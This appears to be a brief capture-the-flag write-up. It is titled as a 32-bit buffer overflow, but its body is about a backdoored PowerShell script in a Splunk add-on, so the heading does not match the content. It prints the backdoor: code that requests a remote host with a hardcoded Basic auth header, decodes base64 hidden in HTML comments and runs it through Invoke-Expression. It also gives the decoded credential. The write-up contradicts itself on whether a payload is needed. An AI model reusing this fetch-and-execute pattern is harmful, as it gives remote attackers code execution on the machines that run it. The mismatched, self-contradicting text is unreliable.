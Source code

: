 # Baby Buffer Overflow - 32bit

The backdoored file is `dns-health.ps1`. This is a Splunk Add-On running on Windows - the service (part of the challenge),
is accessed and HTML/base64 comments are Invoked in Powershell on Windows.

Payload is:

```powershell
# $PORT below is dynamic to the running service of the `Start` button
@($html = (Invoke-WebRequest http://challenge.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dGhpc19pc190aGVfaHR0cF9zZXJ2ZXJfc2VjcmV0")} -UseBasicParsing).Content
if ($html -match '<!--(.*?)-->') {
    $value = $matches[1]
    $command = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($value))
    Invoke-Expression $command
})
```

Authorization header is `backdoor:this_is_the_http_server_secret`.

No payload is needed - once the challenge service is accessed with that Authorization header a flag is given in base64.
